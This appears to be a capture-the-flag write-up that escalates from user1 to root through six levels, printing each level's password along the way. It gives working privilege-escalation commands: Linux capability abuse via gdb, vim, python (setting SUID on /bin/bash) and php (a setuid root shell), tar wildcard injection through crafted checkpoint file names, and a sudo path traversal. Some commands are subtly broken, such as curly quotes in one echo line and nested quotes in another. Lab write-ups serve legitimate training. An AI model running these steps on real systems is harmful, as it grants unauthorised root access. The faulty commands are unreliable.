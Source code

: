 ## User1
![](/images/user1.png)

Investigating ```/usr/bin/gdb``` capabilities reveals ```cap_dac_read_search=ep```.

The cap_dac_read_search capability provides users the ability to read ANY file on the filesystem, which includes all files owned by root. So we simply run:

```
gdb
python print(open("/root/user2.txt").read())
```
Password for user 2: WolfMountedFastnessNappy

## User2
![](/images/user2.png)

Investigating ```/usr/bin/vim.basic``` capabilities reveals 
```cap_dac_override=ep```.

The cap_dac_override capability provides a user with the ability to write to ANY file on the filesystem. Therefore we can symply access the ```user3.txt``` file with vim
```
vim /root/user3.txt
```
Password for user 3: PebblyClaritySuperiorMournful

## User3
![](/images/user3.png)

Investigating ```/usr/bin/python3.11``` capabilities reveals ```cap_fowner=ep```.

The cap_fowner capability provides a user with the ability to change the permissions of ANY file or directory on the filesystem, which includes all files and directories owned by root.

To get the quick root, simply set the SUID bit on /bin/bash, like so:
```
/usr/bin/python3 -c 'import os;os.chmod("/bin/bash", 0o4755)'
```
Then run ```/bin/bash``` and acces the needed file as root.

Password for user 4: JustifierDetachedCuppedEndurable

## User4
![](/images/user4.png)

Investigating ```/usr/bin/php8.2``` capabilities reveals ```cap_setuid=ep```.

The cap_setuid capability provides a user with the ability to run whatever binary that has this capability set as root.

We make a command to execute a PHP script that changes the user ID to 0 (which is the root user) and then execute a shell (/bin/sh). 

This effectively gives the user a shell with root privileges.
```
CMD="/bin/sh"
./php -r "posix_setuid(0); system('$CMD');"
```
Password for user 5: VentureRangedConveneVirus

## User5
![](/images/user5.png)

Investigating with ```./pspy``` reveals that there is a cronjob that archives all the data from ```/home/user5```. The exploitation is possible due to the checkpoint functionality within the tar utility.

First create a script that will save the contents of the ```/root/user6.txt``` in ```/home/user5/password.txt```.
Make the script executable.
Create a file named ```--checkpoint=1```.
Create another file named ```--checkpoint-action=exec=sh pwn.sh```.
```
echo “cat /root/user6.txt > /home/user5/password.txt” > /home/user5/pwn.sh
chmod +x /home/user5/pwn.sh
touch /home/user5/--checkpoint=1
touch /home/user5/--checkpoint-action=exec=sh\ pwn.sh
```

When the cronjob is executed, the wildcard is expanded to files in ```/home/user5```, which coincidentally can be interpreted as command-line arguments for tar. Thus, tar perceives them as arguments and executes the pwn.sh script. All thats left is to display the contents of ```/home/user5/password.txt```.

Password for user 6: RearViewUnscathedSantaRamble

## User6
![](/images/user6.png)

```sudo -l``` informs us that we can run ```/usr/bin/python3``` and ```/root/*.py``` as ```(root) NOPASSWD```.

Create the ```script.py``` under ```/tmp``` and add code to read data from the needed file.:
```
echo "print(open("/root/password.txt").read())" > /tmp/script.py
```
Now run the python command as root. We can pass the file using path traversal.
```
sudo /usr/bin/python3 /root/../tmp/script.py
```

Password for root: CapsAndMissesEverywhere
